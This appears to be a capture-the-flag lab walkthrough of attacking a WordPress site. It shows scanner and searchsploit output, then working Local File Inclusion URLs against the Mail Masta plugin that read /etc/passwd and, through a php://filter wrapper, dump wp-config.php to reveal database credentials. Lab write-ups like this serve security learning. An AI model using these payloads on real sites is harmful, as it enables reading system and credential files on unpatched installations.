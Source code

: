 ```
 | Last Updated: 2021-03-10T02:38:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 3.1.7 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://10.10.148.7/wordpress/wp-content/plugins/reflex-gallery/readme.txt


 ...

```
Yeah he user is not a problem you could clearly see it is the author of the blog posts

Even trying to bruteforce the password did not help me

But we got 2 plugins and wordpress is famous for its plugins security policy

```
└──╼ $searchsploit mail masta

 Exploit                                       Title        |  Path
--------------------------------------------------------------------------------
WordPress Plugin Mail Masta 1.0 - Local File Inclusion      | php/webapps/40290.txt
WordPress Plugin Mail Masta 1.0 - Local File Inclusion (2)  | php/webapps/50226.py
WordPress Plugin Mail Masta 1.0 - SQL Injection             | php/webapps/41438.txt
--------------------------------------------------------------------------------------------
Shellcodes: No Results

└──╼ $searchsploit reflex-gallery
Exploits: No Results
Shellcodes: No Results
```
Guess what? we gonna exploit mail masta

I chose the LFI way for it is faster



```
http://10.10.230.184/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```
LFI is usually for reading those config files for creds

```
http://10.10.230.184/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php
```

```
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'elyana' );

/** MySQL database password */
define( 'DB_PASSWORD', 'H@ckme@123' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

...

```
